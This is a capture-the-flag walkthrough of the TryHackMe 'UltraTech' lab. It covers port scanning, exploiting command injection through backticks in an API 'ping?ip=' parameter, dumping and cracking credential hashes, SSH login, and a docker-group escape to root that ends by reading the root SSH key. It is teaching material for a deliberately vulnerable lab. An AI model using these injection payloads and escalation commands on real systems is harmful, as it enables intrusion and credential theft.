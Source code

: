 ```yaml
---
layout: post
title: "UltraTech — Writeup"
date: 2023-06-06 
categories: [Tryhackme,Linux Machines]
tags: [tryhackme, security, pentest, enumeration, web ultratech1]
link: https://tryhackme.com/room/ultratech1
image: /assets/img/Posts/ut.png
---
```


## `INTRODUCTION`

UltraTech is a medium level rated room that gives a perspective of security practices. It explores enumeration, subdomain discovery and Privilege escalation. Let's begin.
## `Initial recon - Port scanning`

We start off with an nmap scan to identify open ports and the services thy are running.

```shell
nmap -sC -sV -p- 10.10.105.45 -o nmap.out
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-06 10:01 EAT
Nmap scan report for 10.10.105.45
Host is up (0.15s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc668985e705c2a5da7f01203a13fc27 (RSA)
|   256 c367dd26fa0c5692f35ba0b38d6d20ab (ECDSA)
|_  256 119b5ad6ff2fe449d2b517360e2f1d2f (ED25519)
8081/tcp  open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-cors: HEAD GET POST PUT DELETE PATCH
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: UltraTech - The best of technology (AI, FinTech, Big Data)
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 2611.45 seconds

```
The scan answers some of the queistions asked

Which software is using the port 8081?
```shell
8081/tcp  open  http    Node.js Express framework
```

Which other non-standard port is used?
```shell
31331/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
```

Which software using this port?
```shell
Apache 
```

The scan answers the above questions. As always, always explore the target.
upon visiting `http://10.10.105.45:8081/` we find it uses an api 
```shell
UltraTech API v0.1.3
```
Now it gets interesing.

We have an `ftp` service on `port 21`. Let's check that out. Always check the port for any anopnymous login. 
```shell
ftp anonymous@10.10.105.45
Connected to 10.10.105.45.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
530 Login incorrect.
ftp: Login failed
ftp> 
```
It didnt go through.
Lets visit port 31331 `(http://10.10.105.45:31331/)`

![website](/assets/img/Posts/3131.png)



Which GNU/Linux distribution seems to be used?
```shell
Ubuntu
```
The software using the port 8081 is a REST api, how many of its routes are used by the web application?
To answer this we launch burpsuite to capture the traffic.
After intercepting the request we forward the request it terminates after hitting two endpoints.

```shell
http://10.10.134.175:8081/favicon.ico
http://10.10.134.175:8081/
```
The answer it 2 routes.

### `Subdomain discovery`
Start a directory scan using ffuf
```shell
ffuf -u http://10.10.105.45:31331/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt 
```
Back to the scan and something is cooking
```shell
    FUZZ: js
    FUZZ: javascript
    FUZZ: server-status
    FUZZ: images
```
The directory, http://10.10.105.45:31331/js has some interesting endpoints.

![website](/assets/img/Posts/dir.png)


### `Vulnerable parameter discovery`
```shell 
    function checkAPIStatus() {
	const req = new XMLHttpRequest();
	try {
	    const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}`
	    req.open('GET', url, true);
	    req.onload = function (e) {
		if (req.readyState === 4) {
		    if (req.status === 200) {
			console.log('The api seems to be running')
		    } else {
			console.error(req.statusText);
		    }
		}
	    };
	    req.onerror = function (e) {
		console.error(xhr.statusText);
	    };
	    req.send(null);
	}
	catch (e) {
	    console.error(e)
	    console.log('API Error')
```
This line `const url = `http://${getAPIURL()}/ping?ip=${window.location.hostname}` is interesting. We can query the API by altering the request.
We try some commands
```shell
http://10.10.103.195:8081/ping?ip=ls

Output : ping: ls: Temporary failure in name resolution
```
We get an error but towards the right direction
Let's try aother command. We add `` characters to the command
```shell
http://10.10.103.195:8081/ping?ip=`ls`
```

This time we get a file
```shell
ping: utech.db.sqlite: Name or service not known

```
We can execute an rce using the ping command to fetch data.
```shell
http://10.10.103.195:8081/ping?ip=`cat utech.db.sqlite`
```

The output is some hash
Mr00tf357a0c52799563c7c7b76c1e7543a32
Madmin0d0ea5111e3c1def594c1684e3b9be84

Now we crack these hashes to establish if they are credentials.

We will use an online cracking tool https://crackstation.net/ for this task
0d0ea5111e3c1def594c1684e3b9be84 - n100906
0d0ea5111e3c1def594c1684e3b9be84 - mrsheafy

As we recall, there was a port 22 that was running a ssh service. We can checkif this credentials work.

```shell
 ssh r00t@10.10.105.45
r00t@10.10.105.45's password: 
Welcome to Ubuntu 18.04.2 LTS (GNU/Linux 4.15.0-46-generic x86_64)

r00t@ultratech-prod:~$ whoami
r00t

```
We are in!

Have a look around.

```shell
r00t@ultratech-prod:~$ id
uid=1001(r00t) gid=1001(r00t) groups=1001(r00t),116(docker)
r00t@ultratech-prod:~$ ls -la
total 28
drwxr-xr-x 4 r00t r00t 4096 Jun  6 06:17 .
drwxr-xr-x 5 root root 4096 Mar 22  2019 ..
-rw-r--r-- 1 r00t r00t  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 r00t r00t 3771 Apr  4  2018 .bashrc
drwx------ 2 r00t r00t 4096 Jun  6 06:17 .cache
drwx------ 3 r00t r00t 4096 Jun  6 06:17 .gnupg
-rw-r--r-- 1 r00t r00t  807 Apr  4  2018 .profile
r00t@ultratech-prod:~$ sudo -l
[sudo] password for r00t: 
Sorry, user r00t may not run sudo on ultratech-prod.
```

User r00t doesn't have root privileges.
We'll have to change that.

We check the groups that are in the machine

```shell
r00t@ultratech-prod:~$ groups
r00t docker
```
This makes this interesting. We have a docker container here and basically the run with root as the default user. More info here https://juggernaut-sec.com/docker-breakout-lpe/
 We head to gtfobins and find a command that can upgrade the shell.

 ```shell
 docker run -v /:/mnt --rm -it bash chroot /mnt sh
 ```
 `WE ARE ROOT`

 ```shell
 r00t@ultratech-prod:~$ docker run -v /:/mnt --rm -it bash chroot /mnt sh
# ls
bin   home            lib64       opt   sbin      sys  vmlinuz
boot  initrd.img      lost+found  proc  snap      tmp  vmlinuz.old
dev   initrd.img.old  media       root  srv       usr
etc   lib             mnt         run   swap.img  var
# cd root
```
We can then locate the id_rsa
```shell
ls -la .ssh
total 16
drwx------ 2 root root 4096 Mar 22  2019 .
drwx------ 6 root root 4096 Mar 22  2019 ..
-rw------- 1 root root    0 Mar 19  2019 authorized_keys
-rw------- 1 root root 1675 Mar 22  2019 id_rsa
-rw-r--r-- 1 root root  401 Mar 22  2019 id_rsa.pub
# cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
```
There you have it.
HAPPY LEARNING! ♥

